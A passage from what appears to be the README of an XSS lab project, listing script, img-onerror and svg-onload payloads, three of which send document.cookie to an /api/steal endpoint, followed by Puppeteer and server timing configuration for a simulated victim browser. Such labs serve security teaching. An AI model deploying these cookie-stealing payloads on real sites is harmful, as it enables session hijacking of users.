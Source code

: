 ```html
<script>
    alert("XSS");
</script>
```

### 2. Cookie Stealing

```html
<script>
    fetch("/api/steal?cookie=" + document.cookie);
</script>
```

### 3. Image-based XSS

```html
<img src="x" onerror="fetch('/api/steal?cookie='+document.cookie)" />
```

### 4. SVG XSS

```html
<svg onload="fetch('/api/steal?cookie='+document.cookie)" />
```

## 🔧 Configuration

### Browser Settings

File: `browser-automation.js`

```javascript
this.browser = await puppeteer.launch({
    headless: false, // Hiển thị browser
    defaultViewport: { width: 1280, height: 720 },
    args: [
        "--no-sandbox",
        "--disable-setuid-sandbox",
        // ... more args
    ],
});
```

### Timing Settings

File: `server.js`

```javascript
// Delay trước khi mở Chrome (3 giây)
setTimeout(async () => { ... }, 3000);

// Thời gian giữ browser mở (5 giây)
setTimeout(async () => {
    await browserAutomation.close();
}, 5000);
```
